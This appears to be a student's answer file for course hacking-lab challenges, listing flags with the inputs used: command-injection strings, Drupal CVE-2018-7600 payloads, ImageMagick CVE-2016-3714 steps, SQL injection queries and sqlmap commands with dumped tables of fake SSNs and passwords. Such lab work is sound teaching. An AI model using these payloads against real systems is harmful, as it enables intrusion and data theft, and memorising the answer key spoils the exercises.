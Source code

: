 <h3>ED200</h3>

Question: [ED200](https://bowneconsultingcontent.com/pub/EH/proj/cloud/ED200_tkp/ED200c_tkp.htm)

Screenshot:
![ED200](ED200/ed200.png)

Flag: Google PersistentDisk

<h3>ED101</h3>

Question: [ED101](https://bowneconsultingcontent.com/pub/EH/proj/ED101.htm)

Flags: 
* ED101.1: /tmp/baker
* ED101.2: sudo
* ED101.3: dhclient -v || ifconfig eth0 192.168.0.1 netmask 255.255.255.0

<h3>ED102</h3>

<h4>RCE Flags</h4>
#ED102.1:
CMD: 127.0.0.1; cat flag1.txt
Flag: simple and easy

FOR OTHER FLAGS:
127.0.0.1; find / -name "*flag*"
./.sub/flag4.txt
./sub/flag2.txt
./sub/sub2/flag3.txt

#ED102.2: 
CMD: 127.0.0.1; cd sub; cat flag2.txt
Flag: a little harder

#ED102.3:
CMD: 127.0.0.1; cd sub; cd sub2; cat flag3.txt
Flag: hidden from apache

#ED102.4:
CMD: 127.0.0.1; cd .sub; cat flag4.txt
Flag: hidden-directory


<h4>Imagemagick CVE-2016-3714</h4>

Question: [ED102](https://bowneconsultingcontent.com/pub/Attack/proj/ED102.htm)

After Upload:
![ED102](ED102/screenshot/102_imagemagick_normal.png)

Vulnerability:
![ED102.4](ED102/screenshot/ed102.4.png)


We need to read "dont_look_here.exe". We can use the payload in "exploit-ed102.5.jpg"

![ED102.5](ED102/screenshot/ed102.5.png)

FLAG ED102.5: just-sitting-there

We need to execute "dont_run_me.jpg". We can use the payload in "exploit-ed102.6.jpg". It is also required to look into source code of result in order to display ascii art correctly.

![ED102.6](ED102/screenshot/ed102.6.png)

FLAG ED102.6: ASCII ART


<h4>DRUPAL CVE-2018-7600</h4>

FLAG ED102.7 PAYLOAD: 'mail[#markup]': 'cat flag7.txt | tee 0xBB.txt'

FLAG ED102.7: Exploiting_Drupal

![ED102.7](ED102/screenshot/ed102.7.png)


FLAG ED102.8 PAYLOAD: 'mail[#markup]': 'cat ../flag8.txt | tee 0xBB.txt'

FLAG ED102.8: above_drupal 

![ED102.8](ED102/screenshot/ed102.8.png)


<h3>ED103</h3>

<h4>ED103.1</h4>
<h3>103.1.1</h3>
QUERY ED103.1.1: select * from widgets.employees
FLAG ED103.1.1: 333-22-3333

<h3>103.1.2</h3>
QUERY ED103.1.2: SELECT COLUMN_NAME from information_schema.columns
OUTPUT:
COLUMN_NAME: YOUNG_MAKE_PER_THOUSAND_GETS
COLUMN_NAME: NOT_YOUNG_MAKE_PER_THOUSAND_GETS

<h4>ED103.2</h4>
<h3>103.2.1</h3>
INPUT:
' union select ssn from employees where name like '%linus%
OUTPUT:
444-22-8357

<h3>103.2.2</h3>
#finding the table names:
SELECT name from employees WHERE name = '' union select group_concat(table_name) from information_schema.tables where table_schema=database()#'
#output: employees,passwords

#finding the column names:
' union select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='passwords
#output: id,pw

#finding the password of steve
' union select pw from passwords as p join employees as e on e.id=p.id where e.name like '%steve%
# FLAG: alpine


<h3>103.2.3</h3>
#Command: sqlmap -u http://ad.samsclass.info/sqli/chal2.php?u=x --current-user
#User (flag): 'bill2'@'localhost'

<h3>103.2.4</h3>
#Command: sqlmap -u https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs --users --random-agent
#Management users (flag): 'bill2a'@'localhost'

<h3>103.2.5</h3>
#Command list:
--dbs
--tables
#Fetch command: sqlmap -u https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs --random-agent -D widgets2a -T employees --dump
#Output:
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
#Flag: 333-22-4888

<h3>103.2.6</h3>
Only user I can find is bill2a:
[23:02:48] [INFO] fetching database users privileges
database management system users privileges:
[*] 'bill2a'@'localhost' [1]:
    privilege: USAGE

#Flag: 1

<h3>103.3.1</h3>
#Queries: 
x' or LENGTH(database())>5#
x' or LENGTH(database())<10#
x' or LENGTH(database())=8#

#Flag: 8

<h3>103.3.2</h3>
#Queries:
x' UNION SELECT name FROM employees WHERE name='Bill Gates' AND substr(ssn, 1, 1)='1'#
x' UNION SELECT name FROM employees WHERE name='Bill Gates' AND substr(ssn, 2, 1)='1'#
x' UNION SELECT name FROM employees WHERE name='Bill Gates' AND substr(ssn, 3, 1)='1'#

#Flag: 111

<h3>103.3.3</h3>
#SQLMap Command:
sqlmap -u https://games.samsclass.info/sqli/chal3.php --random-agent --method=POST --data="u=x" -p u --dump
#Table:
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | xxx-xx-xxxx | admin          |
| 2  | 111-22-4472 | Bill Gates     |
| 3  | 333-22-1537 | Steve Jobs     |
| 4  | 444-22-1174 | Linus Torvalds |
| 5  | zzz-zz-zzzz | Yoda           |
+----+-------------+----------------+
#Flag: 1

<h3>103.3.4</h3>
+----+----------+
| id | password |
+----+----------+
| 1  | frog     |
| 2  | x        |
| 3  | wonky    |
| 4  | dilbert  |
+----+----------+
#Flag: 1
#103.3.5 Flag: 1
#103.3.6 Flag: frog

